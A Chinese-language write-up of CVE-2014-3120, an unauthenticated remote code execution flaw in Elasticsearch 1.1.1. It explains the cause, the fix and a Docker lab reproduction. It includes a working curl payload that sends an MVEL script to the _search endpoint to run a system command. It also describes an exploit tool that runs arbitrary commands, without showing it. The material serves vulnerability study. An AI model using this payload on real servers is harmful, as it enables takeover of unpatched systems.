



# CVE-2014-3120 CWE-284 ElasticSearch RCE

## 漏洞背景

**ElasticSearch ：**一个开源的分布式 RESTful 搜索和分析引擎、可扩展的数据存储和向量数据库，能够解决不断涌现出的各种用例。能够存储大量数据，支持实时搜索、多租户、分布式索引和存储。采用文档导向型存储，数据以 JSON 文档形式存在，字段灵活。其在全文检索方面表现出色，能快速处理复杂搜索请求，常用于日志分析、网站搜索等场景，还可通过添加节点方便扩展集群规模，不过在事务处理完整性和数据更新一致性等方面相对传统数据库稍弱。

**MVEL（MVFLEX Expression Language）**：一种基于 Java 的表达式语言，设计用于在 Java 应用中快速嵌入小段脚本或表达式，常用于配置、规则引擎和模板处理。它支持变量、逻辑运算、流程控制、Java 类调用等功能，语法简洁、执行效率高。

**CORS (Cross-Origin Resource Sharing，跨源资源共享) ：**一种浏览器安全机制，它允许服务器通过设置特定的 HTTP 头部来授权网页从不同于其自身源（域、协议或端口）的服务器请求资源，从而在受控和安全的前提下“绕过”浏览器的同源策略限制，使得现代 Web 应用能够灵活地进行跨域数据交互和资源加载。

## 漏洞原理

在受影响的版本中，Elasticsearch 的默认配置启用了动态脚本功能，并且其 REST API 中的 `_search` 端点（以及其他可能接受脚本的端点）允许**未经身份验证**的攻击者通过特定参数（如 `source`）提交并执行恶意的 MVEL (MVFLEX Expression Language) 脚本。由于 MVEL 能够直接执行 Java 代码，并且在当时的 Elasticsearch 实现中缺乏有效的沙箱隔离，这使得攻击者可以在 Elasticsearch 服务器上执行任意 Java 代码，从而完全控制服务器。

## 漏洞定位

在 elasticsearch-1.1.1\src\main\java\org\elasticsearch\http\netty\NettyHttpChannel.java 文件，第 75 行用于处理 CORS（跨源资源共享）响应头部。

其中第 76 行第二个参数 `true` 表示，如果在 Elasticsearch 的配置文件 (`elasticsearch.yml`) 中没有明确设置 `http.cors.enabled` 的值，那么系统将默认其为 `true`，即默认启用 CORS 功能。它使得任何网站都可以通过用户的浏览器向这个 Elasticsearch 实例发送跨域请求。如果 Elasticsearch 实例没有配置身份验证，恶意网站就可以读取、修改甚至删除 Elasticsearch 中的数据，或者执行其他未授权操作。

```java
// 1. 首先检查请求是否来自浏览器
if (RestUtils.isBrowser(request.headers().get(HttpHeaders.Names.USER_AGENT))) {
    // 2. 然后检查 CORS 是否在配置中被启用，注意这里的关键：默认值为 true
    if (transport.settings().getAsBoolean("http.cors.enabled", true)) {
        // 如果启用了 CORS (或者未配置，按默认的 true 处理)

        // 3. 添加 Access-Control-Allow-Origin 头部
        //    尝试从配置 "http.cors.allow-origin" 获取允许的源
        //    如果未配置，则默认允许所有源 ("*")
        resp.headers().add("Access-Control-Allow-Origin", transport.settings().get("http.cors.allow-origin", "*"));

        // 4. 如果请求是 OPTIONS 方法 (CORS 预检请求)
        if (request.getMethod() == HttpMethod.OPTIONS) {
            // 为预检请求添加额外的 CORS 头部

            // 4a. Access-Control-Max-Age: 预检请求结果的缓存时间
            //     尝试从 "http.cors.max-age" 获取，默认 1728000 秒 (20 天)
            resp.headers().add("Access-Control-Max-Age", transport.settings().getAsInt("http.cors.max-age", 1728000));

            // 4b. Access-Control-Allow-Methods: 服务器允许的跨域请求方法
            //     尝试从 "http.cors.allow-methods" 获取，默认 "OPTIONS, HEAD, GET, POST, PUT, DELETE"
            resp.headers().add("Access-Control-Allow-Methods", transport.settings().get("http.cors.allow-methods", "OPTIONS, HEAD, GET, POST, PUT, DELETE"));

            // 4c. Access-Control-Allow-Headers: 服务器允许的跨域请求头部
            //     尝试从 "http.cors.allow-headers" 获取，默认 "X-Requested-With, Content-Type, Content-Length"
            resp.headers().add("Access-Control-Allow-Headers", transport.settings().get("http.cors.allow-headers", "X-Requested-With, Content-Type, Content-Length"));
        }
    }
}
```

## 漏洞修复

将 NettyHttpChannel.java 文件第 76 行的第二个参数改未 false，使得 CORS 功能在系统中默认处于禁用状态。

但即使禁用 CORS 功能，但仍可以对本地的 Elasticsearch 实例执行任意操作。在 1.2 版本中移除了动态脚本功能，并在 1.3 版本中为脚本创建了沙盒。

## 影响范围

ElasticSearch  < 1.2.0

## 环境搭建

启动 Docker 环境，ElasticSearch 版本为 1.1.1



## 漏洞复现

1. **需要数据库中存有数据。**使用 `curl` 向本地运行的 Elasticsearch 实例发送一个插入文档（Index Document）的 HTTP 请求：

   - 索引名称：`testindex` 
   - 文档的 ID（如果存在，将覆盖；如果不存在，则创建）：1
   - 插入的内容：`message` 字段的值为 `"hello"`

   ```bash
   curl -X POST http://127.0.0.1:9200/testindex/1/ -H "Content-Type: application/json" -d '{"message": "hello"}' 
   ```

2. 使用 `curl` 向本地 Elasticsearch 的 `_search` 接口发送请求：

   - `?pretty` 表示返回结果格式化。
   - `script_fields`：这是 Elasticsearch 提供的功能，可以执行脚本并把返回值作为字段结果返回。
   - `command`：这个字段名随意定义。
   - `script`：这里是实际执行的脚本，执行命令 id。

   ```bash
   curl 127.0.0.1:9200/_search?pretty -H "Content-Type: application/json" -d '{"script_fields":{"command":{"script":"import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"}}}'
   ```

   执行后可以看到返回的 id 信息。

   

## PoC分析

在执行命令前至少存在一条数据，所以需要先创建一条数据。

```bash
curl 127.0.0.1:9200/_search?pretty -H "Content-Type: application/json" -d '{"script_fields":{"command":{"script":"import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"}}}'
```

使用 `curl` 向本地 ElasticSearch 的 `_search` 接口发送请求：

- `?pretty` 表示返回结果格式化。
- `script_fields`：这是 Elasticsearch 提供的功能，可以执行脚本并把返回值作为字段结果返回。
- `command`：这个字段名随意定义。
- `script`：这里是实际执行的脚本：
  - `import java.io.*;`：导入 Java I/O 包，为了使用 `InputStream` 类和 `Runtime` 的相关方法。
  - `Runtime.getRuntime().exec("id")`：使用 Java 的 `Runtime` 类执行系统命令 `id`。
  - `.getInputStream()`：获取命令执行的标准输出。
  - `new java.util.Scanner(...).useDelimiter("\\A").next();`：使用 `Scanner` 将整个输出读取为一个字符串，`useDelimiter("\\A")`：设置分隔符为输入流的开始，这样可以一次性读取全部内容。`next()`：返回结果字符串。

## EXP分析

输入 ElasticSearch 的 IP 以及端口，并输入初始插入的数据（这主要是针对没有存有数据的数据库的 docker 环境）：索引名称、文档的 ID 以及插入的内容（字段和值），之后可以执行任意命令。



## 参考链接

[Elasticsearch Improper Access Control vulnerability · CVE-2014-3120 · GitHub Advisory Database](https://github.com/advisories/GHSA-mrfm-jxgf-2h6v)

[NVD - CVE-2014-3120](https://nvd.nist.gov/vuln/detail/CVE-2014-3120)

[Change default for script.disable_dynamic · Issue #5853 · elastic/elasticsearch](https://github.com/elastic/elasticsearch/issues/5853)

[CORS: Disable by default · elastic/elasticsearch@f9de8b6](https://github.com/elastic/elasticsearch/commit/f9de8b65898509e038e33215db0720b508477a12)

[默认禁用 CORS · 问题 #7151 · elastic/elasticsearch --- Disable CORS by default · Issue #7151 · elastic/elasticsearch](https://github.com/elastic/elasticsearch/issues/7151)

[Elasticsearch 的不安全默认设置启用远程代码执行 --- Insecure default in Elasticsearch enables remote code execution](https://bou.ke/blog/elasticsearch-rce/)
